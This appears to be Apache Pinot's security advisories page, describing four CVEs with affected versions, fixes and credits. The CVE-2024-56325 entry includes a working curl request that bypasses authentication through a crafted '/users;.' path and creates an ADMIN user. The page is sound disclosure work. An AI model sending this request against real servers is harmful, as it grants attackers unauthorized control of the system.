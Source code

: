 ```yaml
---
title: Apache Pinot security advisories
description: Security information for Apache Pinot
layout: single
---
```


# Reporting

Do you want disclose a potential security issue for Apache Pinot? Send your report to the [Apache Security Team](mailto:security@apache.org).

# Advisories

This section is experimental: it provides advisories since 2023 and may lag behind the official CVE publications. If you have any feedback on how you would like this data to be provided, you are welcome to reach out on our public [mailinglist](/mailinglist) or privately on [security@apache.org](mailto:security@apache.org)
{.bg-warning}

## Pinot segment push endpoint has a vulnerability in unprotected environments ## { #CVE-2022-23974 }

CVE-2022-23974 [\[CVE json\]](./CVE-2022-23974.cve.json) [\[OSV json\]](./CVE-2022-23974.osv.json)



_Last updated: 2022-04-05T19:51:49.065Z_

### Affected

* Apache Pinot from Apache Pinot through 0.9.3


### Description

In 0.9.3 or older versions of Apache Pinot segment upload path allowed segment directories to be imported into pinot tables. In pinot installations that allow open access to the controller a specially crafted request can potentially be exploited to cause disruption in pinot service.

Pinot release 0.10.0 fixes this. See https://docs.pinot.apache.org/basics/releases/0.10.0

### References
* https://lists.apache.org/thread/3dk8pf1n02p8oj2j3czbtchyjsf8khwr


### Credits
* Apache Pinot would like to thank bubblegumkk@qq.com, Kuiplatain@knownsec and FA1C0N@RPO_OFFICIAL for reporting the issue


## Pinot query endpoint and the realtime ingestion layer has a vulnerability in unprotected environments due to a groovy function support ## { #CVE-2022-26112 }

CVE-2022-26112 [\[CVE json\]](./CVE-2022-26112.cve.json) [\[OSV json\]](./CVE-2022-26112.osv.json)



_Last updated: 2022-09-23T03:13:43.429Z_

### Affected

* Apache Pinot from Apache Pinot through 0.10.0


### Description

In 0.10.0 or older versions of Apache Pinot, Pinot query endpoint and realtime ingestion layer has a vulnerability in unprotected environments due to a groovy function support. In order to avoid this, we disabled the groovy function support by default from Pinot release 0.11.0. See https://docs.pinot.apache.org/basics/releases/0.11.0

### References
* https://lists.apache.org/thread/4pb0r12s2b68d78llk04yd8rh3qk5t9h


### Credits
* Apache Pinot would like to thank Haoruo Chen(chenhaoruo0128@gmail.com) for reporting the issue


## Unauthorized endpoint exposed sensitive information ## { #CVE-2024-39676 }

CVE-2024-39676 [\[CVE json\]](./CVE-2024-39676.cve.json) [\[OSV json\]](./CVE-2024-39676.osv.json)



_Last updated: 2024-07-24T07:41:07.886Z_

### Affected

* Apache Pinot from 0.1 before 1.0.0


### Description

<p>Exposure of Sensitive Information to an Unauthorized Actor vulnerability in Apache Pinot.</p><p>This issue affects Apache Pinot: from 0.1 before 1.0.0.</p><p>Users are recommended to upgrade to version 1.0.0<span style="background-color: rgb(255, 255, 255);">&nbsp;and configure RBAC</span>, which fixes the issue.</p><p><span style="background-color: rgb(255, 255, 255);">Details:&nbsp;</span></p><p><span style="background-color: rgb(255, 255, 255);">When using a request to path “/appconfigs” to the controller, it can lead to the disclosure of sensitive information such as system information (e.g. arch, os version), environment information (e.g. maxHeapSize) and Pinot configurations (e.g. zookeeper path). This issue was addressed by the </span><a target="_blank" rel="nofollow" href="https://docs.pinot.apache.org/operators/tutorials/authentication/basic-auth-access-control"><span style="background-color: rgb(255, 255, 255);">Role-based Access Control</span></a>,<span style="background-color: rgb(255, 255, 255);"> so that /appConfigs` and all other APIs can be access controlled. Only authorized users have access to it. Note the user needs to add the admin role accordingly to the RBAC guide to control access to this endpoint, and in the future version of Pinot, a default admin role is planned to be added.</span></p><br>

### References
* https://lists.apache.org/thread/hsm0b2w8qr0sqy4rj1mfnnw286tslpzc


### Credits
* Xun Bai <bbbbear68@gmail.com> (finder)


## Authentication bypass issue. If the path does not contain / and contain . authentication is not required ## { #CVE-2024-56325 }

CVE-2024-56325 [\[CVE json\]](./CVE-2024-56325.cve.json) [\[OSV json\]](./CVE-2024-56325.osv.json)



_Last updated: 2025-07-11T10:32:57.135Z_

### Affected

* Apache Pinot before 1.3


### Description

<b>Authentication Bypass Issue</b><br><br><span style="background-color: rgba(29, 28, 29, 0.04);">If the path does not contain / and contain., authentication is not required.<br><br><b>Expected Normal Request and Response Example</b><br><br><span style="background-color: rgba(29, 28, 29, 0.04);">curl -X POST -H "Content-Type: application/json" -d {\"username\":\"hack2\",\"password\":\"hack\",\"component\":\"CONTROLLER\",\"role\":\"ADMIN\",\"tables\":[],\"permissions\":[],\"usernameWithComponent\":\"hack_CONTROLLER\"} <a target="_blank" rel="nofollow" href="http://{server_ip}:9000/users">http://{server_ip}:9000/users</a><br><br>
Return: {"code":401,"error":"HTTP 401 Unauthorized"}</span><br><br><br><b>Malicious Request and Response Example</b> <br><br>curl -X POST -H "Content-Type: application/json" -d '{\"username\":\"hack\",\"password\":\"hack\",\"component\":\"CONTROLLER\",\"role\":\"ADMIN\",\"tables\":[],\"permissions\":[],\"usernameWithComponent\":\"hack_CONTROLLER\"}'<b> </b><a target="_blank" rel="nofollow" href="http://{serverip}:9000/users;"><b>http://{serverip}:9000/users;</b></a><b>.</b><br><br>
Return: {"users":{}}
<br><br>
 

A new user gets added bypassing authentication, enabling the user to control Pinot.</span><br><br>

### References
* https://lists.apache.org/thread/ksf8qsndr1h66otkbjz2wrzsbw992r8v
